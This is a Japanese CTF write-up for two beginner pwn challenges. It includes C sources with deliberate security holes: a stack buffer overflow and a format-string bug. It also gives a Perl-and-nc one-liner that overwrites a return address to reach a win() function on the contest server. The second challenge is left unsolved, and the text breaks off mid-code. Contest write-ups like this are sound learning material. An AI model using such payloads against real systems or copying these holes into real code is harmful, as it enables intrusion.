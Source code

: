 
# pwn / simpleoverwrite
```c
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void win() {
  char buf[100];
  FILE *f = fopen("./flag.txt", "r");
  fgets(buf, 100, f);
  puts(buf);
}

int main() {
  char buf[10] = {0};
  printf("input:");
  read(0, buf, 0x20);
  printf("Hello, %s\n", buf);
  printf("return to: 0x%lx\n", *(uint64_t *)(((void *)buf) + 18));
  return 0;
}

__attribute__((constructor)) void init() {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  alarm(120);
}
```
Overflowとあるのでとりあえず大量に`A`を送ってみました。
```
AAAAAAAAAAAAAAAAAAA
```
ぐらいでリターンアドレスを1バイト侵食していたので、18バイトがリターンアドレスへのオフセットだと分かります。
また`win()`関数が`0x401186`にあったため、
```
perl -e 'print "A"x18 . "\x86\x11\x40\x00" | nc simpleoverwrite.beginners.seccon.games 9001
```
とすることでフラグがゲットできます。

---

# pwn / pure-and-easy (解けてない)
解けていませんが、その時考えていた全てのアイデアを書いておきます。
(後に他のwriteupとも比較するため)
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
  char buf[0x100] = {0};
  printf("> ");
  read(0, buf, 0xff);
  printf(buf);
  exit(0);
}

void win() {
  char buf[0x50];
  FILE *fp = fopen("./flag.txt", "r");
  fgets(buf, 0x50, fp);
```